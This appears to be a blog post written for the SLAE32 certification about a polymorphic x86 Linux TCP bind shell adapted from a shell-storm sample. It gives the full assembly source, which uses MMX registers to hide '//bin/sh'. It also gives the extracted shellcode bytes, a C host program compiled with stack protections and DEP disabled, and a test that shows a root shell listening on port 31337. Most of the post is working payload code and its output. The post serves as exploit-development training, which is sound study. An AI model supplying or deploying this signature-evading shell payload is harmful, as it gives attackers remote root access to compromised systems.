 ```yaml
---
title: SLAE32 Assignment 6.1 - Polymorphic MMX Bind Shell
date: 2019-9-15
layout: single
classes: wide
header:
  teaser: /assets/images/SLAE32.jpg
tags:
  - Bind
  - Shell
  - polymorphic
  - MMX
  - Assembly
  - SLAE
  - Linux
  - Shellcode
--- 
```

![](/assets/images/SLAE32.png)
```console
This blog post has been created for completing the requirements
 of the SecurityTube Linux Assembly Expert certification:
http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/
	- Now at: https://www.pentesteracademy.com/course?id=3
SLAE/Student ID: PA-10913
```
## Overview
For the sixth assignment in the SLAE32 Exam, we needed to create 3 polymorphic shellcodes; from existing shellcodes at shell-storm.org.   
_What is Polymorphic Shellcode?_   
Polymorphic shellcode means that it uses different assembly instructions to deliver the same payload.    
For example, all of the below instructions will result in the same action.

```nasm
mov eax, 0x00000000      ; Clears the EAX Register
xor eax, eax             ; Clears the EAX Register
sub eax, eax             ; Clears the EAX Register
```

The first shellcode I modified was `tcpbindshell (108 bytes)`, created by Russell Willis.  
+ This shellcode can be found at `http://shell-storm.org/shellcode/files/shellcode-847.php`.  

Our assignment required that our polymorphic version of the shellcode to not exceed 150% of the original value.   
+ The original shellcode length is `108 bytes`. 
+ The final length of this polymorphic shellcode is `144 bytes`.    

## Polymorphic Shellcode
+ The code I added/modified is indented with one space.

```nasm
global _start
_start:
 xor	ecx,ecx   ; Makes the ECX Register 0
 mul	ecx       ; ECX*EAX. Result is stored in EDX:EAX. 
                  ;  This clears the EDX and EAX.
 mov ebx, eax     ; sets the EBX register to 0
 push byte 0x66
 pop edi          ; save this for the other functions
 mov eax, edi	  ; eax is now 0x66 which is the socketcall SYScal
 inc ebx          ; EBX = 1; needed to create the socket()
 push edx
push   0x6
 push ebx         ; push 0x1 to the stack 
push   0x2
mov    ecx,esp
int    0x80       ; System Call
 xchg esi,eax     ; Save the output of the syscal to the ESI register
 mov eax, edi     ; EAX = 0x66 used for socketcall SYSCAL
 inc ebx          ; EBX = 0x2
push   edx
push word 0x697a  ; port TCP 
push   bx
mov    ecx,esp
push   0x10
push   ecx
push   esi
mov    ecx,esp
int    0x80       ; System Call
 mov eax, edi     ; EAX = 0x66 used for socketcall SYSCAL
 inc ebx
 inc ebx          ; EBX = 0x4
push   0x1
push   esi
mov    ecx,esp
int    0x80       ; System Call
 mov eax, edi     ; EAX = 0x66 used for socketcall SYSCAL
 inc ebx
push   edx
push   edx
push   esi
mov    ecx,esp
int    0x80       ; System Call
; setup dup2 loop
mov    ebx,eax
xor    ecx,ecx
mov    cl,0x3
; dup2
dup2Loop:
	dec ecx
mov    al,0x3f
int    0x80       ; System Call
jne    dup2Loop
push   edx
 mov edx, 0xffffffff     ; used to XOR the MM0 Register to result in "//bin/sh"
 mov eax, 0x978cd091     ; "n/sh" XOR'd with 0xffffffff
 movd mm0, eax
 psllq mm0, 32           ; shift the mm0 register left by 4 bytes
 mov ebx, 0x969dd0d0     ; "//bi" XOR'd with 0xffffffff
 movd mm1, ebx
 paddb mm0, mm1          ; now mm0 hold the 8 byte XOR'd "//bin/sh"
 movd mm1, edx           ; mm1 is now 0xffffffff
 psllq mm1, 32           ; mm1 is now 0xffffffff00000000
 movd mm2, edx           ; mm2 us biw 0xffffffff
 paddb mm1, mm2          ; mm1 is now 0xffffffffffffffff
 pxor mm0, mm1           ; XOR's mm0 with mm1 and saves the results in mm0
 sub esp, 8              ; Decrement the stack 8 bytes
 movq qword [esp], mm0   ; push "//bin/sh" from mm0 to the top of the stack
xor    eax,eax
mov    ebx,esp
push   eax
push   ebx
mov    ecx,esp
push   eax
mov    edx,esp
mov    al,0xb
int    0x80       ; System Call
```  

+ To push the filename string `//bin/sh` onto the stack, I used the MMX registers.   

### Compiling the Shellcode

```console
root# nasm -f elf32 mmxTcpBindShell.nasm -o mmxTcpBindShell.o
root# ld mmxTcpBindShell.o -o mmxTcpBindShell
```

### Getting the Hex of the Shellcode

```console
root# objdump -d tcpBindShell  | grep '[0-9a-f]:' | grep -v 'file' | \
cut -f2 -d: | cut -f1-6 -d' ' | tr -s ' ' | tr '\t' ' ' | sed 's/ $//g' | \
sed 's/ /\\x/g' | paste -d '' -s | sed 's/^/"/' | sed 's/$/"/g'
"\x31\xc9\xf7\xe1\x89\xc3\x6a\x66\x5f\x89\xf8\x43\x52\x6a\x06\x53\x6a\x02"
"\x89\xe1\xcd\x80\x96\x89\xf8\x43\x52\x66\x68\x7a\x69\x66\x53\x89\xe1\x6a"
"\x10\x51\x56\x89\xe1\xcd\x80\x89\xf8\x43\x43\x6a\x01\x56\x89\xe1\xcd\x80"
"\x89\xf8\x43\x52\x52\x56\x89\xe1\xcd\x80\x89\xc3\x31\xc9\xb1\x03\x49\xb0"
"\x3f\xcd\x80\x75\xf9\x52\xba\xff\xff\xff\xff\xb8\x91\xd0\x8c\x97\x0f\x6e"
"\xc0\x0f\x73\xf0\x20\xbb\xd0\xd0\x9d\x96\x0f\x6e\xcb\x0f\xfc\xc1\x0f\x6e"
"\xca\x0f\x73\xf1\x20\x0f\x6e\xd2\x0f\xfc\xca\x0f\xef\xc1\x83\xec\x08\x0f"
"\x7f\x04\x24\x31\xc0\x89\xe3\x50\x53\x89\xe1\x50\x89\xe2\xb0\x0b\xcd\x80"
``` 

### Injecting the Shellcode in a Host Program
+ I loaded it into our shellcode testing program to ensure it still worked when injected into a host program.  

```c
// Filename: shellcode.c
// Author:   boku
#include<stdio.h>
#include<string.h>
unsigned char code[] = \
"\x31\xc9\xf7\xe1\x89\xc3\x6a\x66\x5f\x89\xf8\x43\x52\x6a\x06\x53\x6a\x02"
"\x89\xe1\xcd\x80\x96\x89\xf8\x43\x52\x66\x68\x7a\x69\x66\x53\x89\xe1\x6a"
"\x10\x51\x56\x89\xe1\xcd\x80\x89\xf8\x43\x43\x6a\x01\x56\x89\xe1\xcd\x80"
"\x89\xf8\x43\x52\x52\x56\x89\xe1\xcd\x80\x89\xc3\x31\xc9\xb1\x03\x49\xb0"
"\x3f\xcd\x80\x75\xf9\x52\xba\xff\xff\xff\xff\xb8\x91\xd0\x8c\x97\x0f\x6e"
"\xc0\x0f\x73\xf0\x20\xbb\xd0\xd0\x9d\x96\x0f\x6e\xcb\x0f\xfc\xc1\x0f\x6e"
"\xca\x0f\x73\xf1\x20\x0f\x6e\xd2\x0f\xfc\xca\x0f\xef\xc1\x83\xec\x08\x0f"
"\x7f\x04\x24\x31\xc0\x89\xe3\x50\x53\x89\xe1\x50\x89\xe2\xb0\x0b\xcd\x80";
main()
{
        printf("Shellcode Length:  %d\n", strlen(code));
        int (*ret)() = (int(*)())code;
        ret();
}
```
+ I then compiled the C program.  

#### Compiling the Host Program
```console
gcc -fno-stack-protector -z execstack -o shellcode shellcode.c
```
+ we use the feature `no-stack-protector` to disable canary stack protections that are automattically added when using the gcc compiler.
+ The option `execstack` disables the Data Execution Protection (DEP) mechanism automatically added when compiling with gcc. 
  - This makes the stack non-executable.
  - The stack would be only read and write if we didn't disable this.

### Testing the Polymorphic Shellcode
#### Window 1
```console
root# ./shellcode
Shellcode Length:  144
```

#### Window 2
```console
root# netstat -tnalp | grep shellcode
tcp        0      0 0.0.0.0:31337           0.0.0.0:*               LISTEN      19649/shellcode
root# nc 127.0.0.1 31337
whoami
root
```
+ Awesome! Our version of the shellcode works as intended.
+ Having no `root#` or `user$` is typical of bind shells.




